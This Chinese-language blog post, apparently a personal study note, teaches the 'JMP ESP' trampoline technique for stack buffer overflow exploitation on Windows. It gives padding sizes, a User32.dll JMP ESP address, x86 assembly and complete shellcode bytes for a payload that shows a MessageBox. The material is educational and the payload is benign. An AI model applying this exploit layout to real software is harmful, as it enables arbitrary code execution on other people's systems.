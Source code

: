 ```yaml
---
title: 漏洞学习笔记-002-ESP跳板
description: ShellCode的动态定位法-ESP跳板法
date: 2020-10-19 18:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


> [点击此处下载本文附可执行程序，shellcode文件](/assets/ExpStd/ExpStd02.zip)

本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-002-esp跳板/)

## 栈空间移位

ShellCode在内存中往往是动态的，并非直接填写一个定值  
也就是前一篇中buffer数组的栈空间地址，并非总是个定值  
当CPU执行到此地址时，有可能触发无效指令异常导致程序崩溃，ShellCode无法运行

### 原理

从程序已加载的系统DLL中查找一个`JMP ESP`指令的地址，用此地址去淹没返回地址  
这样既能精准定位shellcode的位置，又能适应栈空间的动态变化  
栈的地址是上小下大，CPU的执行顺序是小地址到大地址，栈淹没同样从小地址淹没到大地址  
这样只要将前面的一段空间淹没为无意义数据，将ShellCode的开始恰好淹没在`[ESP]`处，就可以达到ShellCode动态寻址

### ShellCode编写

#### 结构

无用数据+`JMP ESP`地址(此地址恰好淹没到函数返回地址)+命令代码(用于测试，MessageBox弹窗)

> 说明：
>
> - `retn`后将会跳到`JMP ESP`处，随后ESP + 4
> - `JMP ESP`后将会正好跳到命令代码处

#### 必要数据

- `JMP ESP`地址：位于User32.dll中`0x77D29353`(没必要必须是原版命令，只要搜二进制`0xFFE4`即可)
- 垃圾数据大小：52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### 最终Code

> 以下是需要执行的命令代码

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> 最终的ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
